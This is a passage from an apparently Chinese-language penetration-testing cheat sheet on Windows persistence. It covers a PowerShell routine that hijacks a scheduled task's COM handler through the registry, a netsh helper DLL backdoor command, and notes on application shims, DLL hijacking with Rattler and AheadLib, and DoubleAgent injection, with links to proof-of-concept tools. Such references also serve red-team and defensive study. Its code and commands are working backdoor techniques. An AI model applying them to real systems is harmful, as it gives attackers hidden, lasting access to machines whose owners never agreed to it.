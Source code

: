 ```
if ($Force -or ((Get-ItemProperty -Path $ScheduledTaskCommandPath -Name '(default)' -ErrorAction SilentlyContinue) -eq $null)){
New-Item $ScheduledTaskCommandPath -Force |
New-ItemProperty -Name '(Default)' -Value $Command -PropertyType string -Force | Out-Null
}else{
Write-Verbose "Key already exists, consider using -Force"
exit
}

if (Test-Path $ScheduledTaskCommandPath) {
Write-Verbose "Created registry entries to hijack the UserTask"
}else{
Write-Warning "Failed to create registry key, exiting"
exit
} 
}
Invoke-ScheduledTaskComHandlerUserTask -Command "C:\test\testmsg.dll" -Verbose
```

##### 15、[Netsh](https://3gstudent.github.io/Netsh-persistence)

```
netsh add helper c:\test\netshtest.dll
```

后门触发：每次调用netsh

> dll编写:https://github.com/outflanknl/NetshHelperBeacon

##### 16、[Shim](https://3gstudent.github.io/渗透测试中的Application-Compatibility-Shims)

常用方式： InjectDll RedirectShortcut RedirectEXE

##### 17、[DLL劫持](https://3gstudent.github.io/DLL劫持漏洞自动化识别工具Rattler测试)

通过Rattler自动枚举进程，检测是否存在可用dll劫持利用的进程 使用：Procmon半自动测试更精准，常规生成的dll会导致程序执行报错或中断，使用AheadLib配合生成dll劫持利用源码不会影响程序执行

工具：https://github.com/sensepost/rattler

工具：https://github.com/Yonsm/AheadLib

dll劫持不多说

##### 18、[DoubleAgent](https://3gstudent.github.io/渗透测试中的Application-Verifier(DoubleAgent利用介绍))

编写自定义Verifier provider DLL 通过Application Verifier进行安装 注入到目标进程执行payload 每当目标进程启动，均会执行payload，相当于一个自启动的方式 POC : https://github.com/Cybellum/DoubleAgent

##### 19、[waitfor.exe](https://3gstudent.github.io/Use-Waitfor.exe-to-maintain-persistence)
